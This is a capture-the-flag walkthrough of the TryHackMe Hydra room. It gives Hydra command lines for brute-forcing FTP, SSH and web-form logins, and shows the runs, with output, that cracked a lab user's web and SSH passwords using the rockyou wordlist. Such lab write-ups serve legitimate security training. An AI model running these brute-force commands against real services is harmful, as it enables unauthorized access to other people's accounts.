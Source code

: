 ```yaml
---
title: TryHackMe Hydra
date: 2021-07-03T20:14:32+05:30
lastmod: 2021-07-03T20:14:32+05:30
author: Animesh Roy
avatar: /img/avatar.jpeg
authorlink: https://bit.ly/34sGFiK
cover: /img/thm.gif

categories:
  - TryHackMe
tags:
  - tryhackme
  - rooms
  - thm
  - hydra

draft: false
description: TryHackMe Room hydra solved by Animesh Roy. this is a walkthough. read more...

---
```

## Hydra

> Learn about and use Hydra, a fast network logon cracker, to bruteforce and obtain a website's credentials.

## Task 01: Hydra Introduction

Hydra is a brute force online password cracking program; a quick system login password 'hacking' tool.

### Installing Hydra

If you're using Kali Linux, hydra is pre-installed. Otherwise you can download it here: https://github.com/vanhauser-thc/thc-hydra

---

## Task 02:  Using Hydra

* Hydra Commands

The options we pass into Hydra depends on which service (protocol) we're attacking. For example if we wanted to bruteforce FTP with the username being user and a password list being passlist.txt, we'd use the following command:

`hydra -l user -P passlist.txt ftp://ip.add.re.ss`

* SSH
  
`hydra -l <username> -P <full path to pass> ip -t 4 ssh`

![hydra-options](https://i.imgur.com/D71vkKM.png)

* Post Web Form
We can use Hydra to bruteforce web forms too, you will have to make sure you know which type of request its making - a GET or POST methods are normally used. You can use your browsers network tab (in developer tools) to see the request types, or simply view the source code.

Below is an example Hydra command to brute force a POST login form:

`hydra -l <username> -P <wordlist> ip http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`

![hydra-web](https://i.imgur.com/vC3ZU4E.png)

### 2.1

Use Hydra to bruteforce molly's web password. What is flag 1?

* CMD to run
  
  ` hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.139.138  http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" `

  ```bash
     root@Machine:~# hydra -l molly -P /usr/share/wordlists/rockyou.txt [ip]  http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"
     Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

     Hydra (http://www.thc.org/thc-hydra) starting at 2021-07-03 15:58:06
     [DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
     [DATA] attacking http-post-form://10.10.139.138:80//login:username=^USER^&password=^PASS^:F=incorrect
     [80][http-post-form] host: 10.10.139.138   login: molly   password: ********
     1 of 1 target successfully completed, 1 valid password found
     Hydra (http://www.thc.org/thc-hydra) finished at 2021-07-03 15:58:11
     ```

* use the password and user name to login to website, Flag is in HomePage

### 2.2

Use Hydra to bruteforce molly's SSH password. What is flag 2?

* cmd to run

     ```bash
     root@machine:~# hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.139.138 -t 4 ssh
     Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

     Hydra (http://www.thc.org/thc-hydra) starting at 2021-07-03 16:01:43
     [DATA] max 4 tasks per 1 server, overall 4 tasks, 14344398 login tries (l:1/p:14344398), ~3586100 tries per task
     [DATA] attacking ssh://10.10.139.138:22/
     [22][ssh] host: 10.10.139.138   login: molly   password: *********
     1 of 1 target successfully completed, 1 valid password found
     Hydra (http://www.thc.org/thc-hydra) finished at 2021-07-03 16:02:10
     ```
  
* SSH into the box by running `ssh molly@ip` and use the password you found. flag is in home dir `cat ~/flag2*`

---

<!-- Google Ads -->
<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>
<!-- END -->

---

<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="anir0y" data-description="Support me on Buy me a coffee!" data-message="" data-color="#5F7FFF" data-position="Right" data-x_margin="18" data-y_margin="18"></script>

<!-- EOF -->
